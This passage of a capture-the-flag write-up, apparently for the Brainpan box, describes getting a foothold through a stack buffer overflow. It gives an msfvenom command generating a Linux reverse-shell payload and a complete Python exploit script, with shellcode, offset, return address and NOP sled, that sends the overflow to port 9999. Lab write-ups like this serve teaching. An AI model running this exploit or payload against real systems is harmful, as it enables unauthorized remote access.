 <img src="https://i.imgur.com/kFeC6Jq.png"/>

We got our reverse shell now we need to deliver this on to the actual target, for getting a shell on the target machine we just need to replace the IP address 

## Foothold

<img src="https://i.imgur.com/MxDTPHj.png"/>

<img src="https://i.imgur.com/7z2PXrL.png"/>

After getting a shell, it was weird that I got a prompt saying `CMD Version 1.4.1` and there was a bash script which was executing the brainpan.exe using `wine` which tells that this is actually a linux machine running a windows exe , so we need to generate a linux reverse shell payload 

<img src="https://i.imgur.com/oiMNCSI.png"/>

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=tun0 LPORT=2222 -f python EXITFUNC=thread -b "\x00" 
```

<img src="https://i.imgur.com/e25OqC6.png"/>

```python
#!/usr/bin/python

import socket

host = "10.10.252.161"
port = 9999

buf =  b""
buf += b"\xba\x5c\x45\x76\xc9\xda\xc4\xd9\x74\x24\xf4\x5e\x2b"
buf += b"\xc9\xb1\x12\x31\x56\x12\x83\xc6\x04\x03\x0a\x4b\x94"
buf += b"\x3c\x83\x88\xaf\x5c\xb0\x6d\x03\xc9\x34\xfb\x42\xbd"
buf += b"\x5e\x36\x04\x2d\xc7\x78\x3a\x9f\x77\x31\x3c\xe6\x1f"
buf += b"\xc8\xb6\x46\xe3\xa4\xc4\x76\x13\x9b\x40\x97\x93\x85"
buf += b"\x02\x09\x80\xfa\xa0\x20\xc7\x30\x26\x60\x6f\xa5\x08"
buf += b"\xf6\x07\x51\x78\xd7\xb5\xc8\x0f\xc4\x6b\x58\x99\xea"
buf += b"\x3b\x55\x54\x6c"

buffer = "A" * 524 + "\xf3\x12\x17\x31" +"\x90" * 30 + buf


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.recv(1024)
s.send(buffer)
s.recv(1024)

print "[+] Buffer sent!"

s.close()

```
